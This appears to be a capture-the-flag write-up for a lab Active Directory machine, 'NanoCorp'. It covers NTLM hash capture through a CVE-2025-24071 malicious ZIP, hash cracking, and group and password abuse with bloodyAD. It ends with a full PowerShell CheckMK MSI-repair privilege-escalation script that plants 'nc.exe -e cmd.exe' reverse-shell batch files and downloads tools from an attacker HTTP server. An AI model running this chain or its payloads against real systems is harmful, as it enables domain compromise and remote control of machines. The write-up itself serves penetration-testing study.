









# NanoCorp 

## Overview

NanoCorp is an Active Directory–based machine involving web enumeration, NTLM capture via a CVE-2025-24071 exploitation path, Kerberos abuse, AD privilege escalation, and lateral movement through WinRM, followed by a CheckMK MSI repair exploit for SYSTEM.

### Summary of Attack Chain

| Step | User / Access                | Technique Used                                          | Result                                                                                 |
| :--: | :--------------------------- | :------------------------------------------------------ | :------------------------------------------------------------------------------------- |
|   1  | (Local / Recon)              | **nmap -A -Pn 10.10.11.93**                             | Identified AD environment + HTTPS web service on `nanocorp.htb`.                       |
|   2  | (attacker)                   | **Dirbuster → /About Us → Apply Now**                   | Discovered new subdomain **hire.nanocorp.htb**.                                        |
|   3  | (attacker)                   | **CVE-2025-24071 ZIP Upload → Responder**               | Forced outbound NTLM leak from web server; captured **WEB_SVC NTLMv2 hash**.           |
|   4  | (attacker)                   | **hashcat -m 5600**                                     | Cracked password: `WEB_SVC:dksXXXXXXXXXXX`.                                            |
|   5  | WEB_SVC (domain user)        | **SMB & Kerberos → impacket-getTGT**                    | Obtained a valid **Kerberos TGT** for WEB_SVC.                                         |
|   6  | WEB_SVC (kerberos auth)      | **bloodhound-python (All collection)**                  | Enumerated AD → Found privilege path via **IT_SUPPORT** group + user `monitoring_svc`. |
|   7  | WEB_SVC (AD rights abuse)    | **bloodyAD add groupMember it_support web_svc**         | Added self (WEB_SVC) into **IT_SUPPORT** elevated group.                               |
|   8  | WEB_SVC (IT_SUPPORT)         | **bloodyAD set password monitoring_svc ‘P@ssw0rd444!’** | Reset credentials for **monitoring_svc**.                                              |
|   9  | monitoring_svc (domain user) | **impacket-getTGT + winrmexec (5986)**                  | Logged into domain controller via **WinRM**; obtained stable shell.                    |
|  10  | monitoring_svc (DC shell)    | **CheckMK MSI Repair Exploit (msiexec /fa)**            | Executed malicious `.cmd` during repair phase → triggered RCE payload.                 |
|  11  | SYSTEM                       | **nc.exe reverse shell**                                | Achieved full **SYSTEM** access on DC01 (root equivalent).                             |


## Enumeration

### Nmap

```
nmap -A -Pn 10.10.11.93 -o nmapresult
# Nmap 7.95 scan initiated Sat Nov 22 18:06:53 2025 as: /usr/lib/nmap/nmap --privileged -A -Pn -o nanocorpscan 10.10.11.93
Nmap scan report for nanocorp.htb (10.10.11.93)
Host is up (0.60s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Nanocorp
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-11-22 19:37:25Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5986/tcp open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
|_http-title: Not Found
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-22T19:38:24
|_  start_date: N/A
|_clock-skew: 1h29m53s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   521.33 ms 10.10.16.1
2   777.84 ms nanocorp.htb (10.10.11.93)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 22 18:09:22 2025 -- 1 IP address (1 host up) scanned in 149.23 seconds
```

### Hosts Entry

```
echo "10.10.11.93 nanocorp.htb dc01.nanocorp.htb hirenanocorp.htb" >> /etc/hosts
```

### Directory Bruteforce

```
dirbuster -u http://nanocorp.htb \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



### Time Sync for Kerberos

```
ntpdate 10.10.11.93 dc01.nanocorp.htb0
```

### SMB/LDAP Enumeration

```
enum4linux 10.10.11.93
```

### Username Bruteforce

```
kerbrute userenum –dc 10.10.11.93 -d nanocorp.htb \
  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


## Web Exploration

Clicking **About Us → Apply Now** reveals a new subdomain:

```
hire.nanocorp.htb
echo "10.10.11.93 nanocorp.htb hire.nanocorp.htb dc01.nanocorp.htb nanocorp.htb0" >> /etc/hosts
```


### CVE-2025-24071 Exploitation (Zip Upload → NTLM Capture)

Clone PoC:

```
git clone https://github.com/0x6rss/CVE-2025-24071_PoC
cd CVE-2025-24071_PoC
```

Run Responder:

```
sudo responder -I tun0 -v
```

Generate malicious ZIP:

```
python3 poc.py
```

Upload `exploit.zip` to **hire.nanocorp.htb**.

After multiple attempts (wrong IP originally), NTLMv2 hashes were captured.



### Crack Hash

```
hashcat -m 5600 -a 0 hash.txt /home/kali/Desktop/wordlists/rockyou.txt --force

hashcat -m 5600 hash.txt --show
WEB_SVC:dksXXXXXXXXXXX
```



## Initial Access (SMB → Kerberos)

### SMB Listing

```
smbclient -L //10.10.11.93 -U WEB_SVC
```

Shares discovered:

* ADMIN$
* C$
* IPC$
* NETLOGON
* SYSVOL





### Kerberos TGT

```
impacket-getTGT -dc-ip 10.10.11.93 'nanocorp.htb/WEB_SVC:dksXXXXXXXXXXX'
export KRB5CCNAME=WEB_SVC.ccache
klist
```



## BloodHound Enumeration

```
bloodhound-python -u 'WEB_SVC' -p 'dksXXXXXXXXXXX' \
  -d nanocorp.htb -c All -o bloodhound_results.json \
  -ns 10.10.11.93 -k
```

Interesting group: **[IT_SUPPORT@NANOCORP.HTB](mailto:IT_SUPPORT@NANOCORP.HTB)**

Found additional user: **monitoring_svc**



## Privilege Escalation to IT_SUPPORT

### Add `web_svc` to IT_SUPPORT

```
bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb \
  -u 'web_svc' -p 'dksXXXXXXXXXXX' -k \
  add groupMember it_support web_svc
```


### Reset Password for monitoring_svc

```
bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb \
  -u 'web_svc' -p 'dksXXXXXXXXXXX' -k \
  set password monitoring_svc 'P@ssw0rd444!'
```



### Kerberos Login

```
impacket-getTGT 'nanocorp.htb/monitoring_svc:P@ssw0rd444!'
export KRB5CCNAME=monitoring_svc.ccache
klist
```



## Shell via WinRM

```
git clone https://github.com/ozelis/winrmexec.git
python3 winrmexec.py -ssl -port 5986 -k \
  nanocorp.htb/monitoring_svc@dc01.nanocorp.htb -no-pass
```


# Privilege Escalation to SYSTEM (CheckMK MSI Repair Exploit)

### Upload Tools

From local:

```
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 8000
```

On target:

```
cd C:\Windows\Temp
wget "http://10.10.14.34:8000/nc.exe" -UseBasicParsing -OutFile "nc.exe"
wget "http://10.10.14.34:8000/RunasCs.cs" -UseBasicParsing -OutFile "RunasCs.cs"
```

### Compile RunasCs

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe \
  -target:exe -optimize -out:RunasCs.exe RunasCs.cs
```


## Prepare Payload (exp.ps1)

Create local payload:

```
nano exp.ps1
```

Paste (adjust LHOST/LPORT):

```powershell
param(
    [int]$MinPID = 1000,
    [int]$MaxPID = 15000,
    [string]$LHOST = "10.10.XX.XX",
    [string]$LPORT = "9001"
)

$NcPath = "C:\Windows\Temp\nc.exe"
$BatchPayload = "@echo off`r`n$NcPath -e cmd.exe $LHOST $LPORT"

$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' |
        Where-Object { $_.DisplayName -like '*mk*' } |
        Select-Object -First 1).LocalPackage

foreach ($ctr in 0..1) {
    for ($num = $MinPID; $num -le $MaxPID; $num++) {
        $filePath = "C:\Windows\Temp\cmk_all_$($num)_$($ctr).cmd"
        [System.IO.File]::WriteAllText($filePath, $BatchPayload, [System.Text.Encoding]::ASCII)
        Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue
    }
}

Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn" -Wait
```

Upload:

```
wget "http://10.10.14.34:8000/exp.ps1" -UseBasicParsing -OutFile "exp.ps1"
```





### Listener

```
nc -lvnp 9001
```


## Trigger SYSTEM Shell

```
.\RunasCs.exe web_svc "dksXXXXXXXXXXX" \
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\exp.ps1"
```

Reverse shell received → **SYSTEM**.

